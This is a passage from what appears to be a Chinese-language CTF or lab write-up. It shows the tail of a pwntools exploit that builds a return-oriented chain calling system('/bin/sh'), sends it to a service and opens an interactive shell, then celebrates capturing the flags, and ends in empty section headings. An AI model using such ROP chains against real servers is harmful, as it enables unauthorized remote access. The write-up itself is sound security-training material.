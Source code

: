 ```python
payload += p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system)


print(p.recvline())
print(p.recvline())
print(p.recvline())
print(p.recvline())

p.sendline(payload)

p.interactive()
```

通过这种比较厉害的手段，就可以拿到服务器的shell了，Flag全家福如下：

![image-20220406000619440](https://s2.loli.net/2022/04/06/OBYjdFscGNmEzgK.png)

终于Repeater全成就了，呜呜呜，好有成就感。



### 2）QDOJ

### 3) C4

## 3.实验总结

